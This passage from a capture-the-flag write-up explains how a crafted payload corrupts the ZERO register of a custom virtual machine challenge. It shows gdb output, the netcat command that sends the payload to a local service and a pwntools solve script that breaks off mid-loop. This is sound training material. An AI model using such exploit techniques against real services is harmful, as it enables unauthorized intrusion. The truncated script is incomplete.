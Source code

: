 ```c

```

gdb output after this user payload was executed:
```
(gdb) p registers
$16 = {-41, 1, 0, 0, 0, 0, 0, 0, 0}
```

It worked! the ``ZERO`` register is ``-41``, and ``R0`` is 1.

Now, if we look at the admin code again:
```
ADDI R1, ZERO, 42
MUL R2, R0, R1
SUBI R2, R2, 1
RETNZ R2 // if R2 is not zero, return and don't print the flag
```

The result will be 0 and the program won't return too early (==our flag will be printed out). 

Let's try to launch the shellcode on the target host:

```sh
$ nc 127.0.0.1 9020 < ./solve-dir/pwn.bin 
User payload size: 36
>>> Executing code!








=lagRahh6got6it}����
>>> executed 0x43 instructions

```

The flag was printed! but it's a little bit, well, messy. 

This is happening because we corrupted the ``ZERO`` register with the value ``-41``. The admin code uses this register to print out the flag when iterating through the characters of the flag with the ``ROR`` instruction. 

To overcome this, I added a small python script that will add ``+41`` on every 32bit rotation.

The final exploit is below ([./solve.py](./solve.py)):
```py
from pwn import *


chall   = remote('127.0.0.1', 9020)
fh      = open('./solve-dir/pwn.bin', 'rb') # generated by ./solve-dir/build_pwn.c
payload = fh.read() 

chall.send(payload)
chall.recvuntil('Executing code!\n\x1b[0m')
chall.recv(4)
resp = chall.recv()

final        = ''
bits_counter = 0

for i in resp:
    final += chr(i+41) if bits_counter % 32 == 0 else chr(i)
    bits_counter += 8
    if final[-1:] == '}':
```